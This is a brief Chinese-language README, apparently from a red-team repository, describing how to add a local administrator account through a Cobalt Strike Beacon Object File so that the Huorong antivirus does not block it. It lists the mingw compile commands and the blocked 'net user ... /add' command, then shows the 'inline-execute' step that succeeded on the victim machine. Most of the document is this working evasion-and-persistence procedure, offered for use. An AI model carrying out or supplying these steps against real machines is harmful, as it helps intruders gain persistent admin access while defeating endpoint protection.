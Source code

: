 ### 0x00 基本原理
利用CS4.1中新出的BOF功能提供的API实现添加用户，并将用户添加到管理员组

### 0x01 测试火绒过程记录
kali下执行如下命令安装需要的库
```
sudo apt install mingw-w64-tools mingw-w64-common g++-mingw-w64 gcc-mingw-w64 upx-ucl osslsigncode
```
安装完之后，执行如下命令分别生成32位和64位的对象文件
```
x86_64-w64-mingw32-gcc -c bof-net-user.c -o bof-net-user-x64.o
i686-w64-mingw32-gcc -c bof-net-user.c -o bof-net-user-x86.o
```
CS上线后，直接执行
```
shell net user test test /add
```
会被拦截，如下图  
![image](./pic/0.png)
通过内联执行的方式执行对象文件bof-net-user-x86.o
```
inline-execute /home/kali/Desktop/bof-net-user-x86.o
```
等待一会，反馈成功添加用户，如下图  
![image](./pic/1.png)  
回到受害机上查看，成功添加用户，如下图  
![image](./pic/2.png)  
